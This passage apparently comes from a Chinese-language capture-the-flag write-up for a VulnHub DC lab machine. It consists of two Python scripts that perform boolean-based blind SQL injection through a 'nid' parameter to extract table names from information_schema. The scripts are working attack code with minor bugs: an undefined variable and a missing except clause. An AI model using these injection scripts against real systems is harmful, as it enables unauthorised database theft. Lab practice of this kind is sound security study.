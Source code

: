 编写代码先进行长度的验证

```python
import requests
from bs4 import BeautifulSoup
import itertools
import string
for i in range(1,2000):
    try:        
        url=f"http://192.168.10.12/?nid=1 and if(length((select (group_concat(table_name)) from (information_schema.tables) where (table_schema=database())))={i},1,0)--+"
#这里的url可自行修改
        response=requests.get(url)
        response.encoding = 'utf-8'
        if response.status_code == 200:
            soup = BeautifulSoup(response.text, 'html.parser')
            target_elements = soup.find_all('div', class_='messages status')
            if target_elements:
                print(f"length is {i}")
                for element in target_elements:
                    pass
                #print(element)
            else:
                pass
            #print("not found div")
        else:
            print("target code not 200")
    except requests.RequestException as e:
        print(f"使用参数值 {combination} 请求时出现异常: {e}")
```

![](D:\stu\vulnhub\DC靶场\pic-8\15.jpg)

确定长度为1024，再次编写验证的代码，因为在正确时会多出一串`html`代码，所以以这个为正确方向

```python
import requests
from bs4 import BeautifulSoup
import itertools
import string

characters = string.ascii_lowercase + string.digits
combinations = [''.join(x) for x in itertools.product(characters, repeat=1)]

for i in range(0,1025):	#根据前面的长度进行对应的修改范围

    for combination in combinations:
        try:
            url=f"http://192.168.10.12/?nid=1 and if(substring((select (group_concat(table_name)) from (information_schema.tables) where (table_schema=database())),{i},1)='{combination}',1,0)--+"
            response=requests.get(url)
            response.encoding = 'utf-8'
            if response.status_code == 200:
                soup = BeautifulSoup(response.text, 'html.parser')
                target_elements = soup.find_all('div', class_='messages status')
                if target_elements:
                    print(f"num {i}-----{combination}")
                    for element in target_elements:
                        pass
                        #print(element)
                else:
                    pass
                    #print("not found div")
            else:
                print("target code not 200")
```
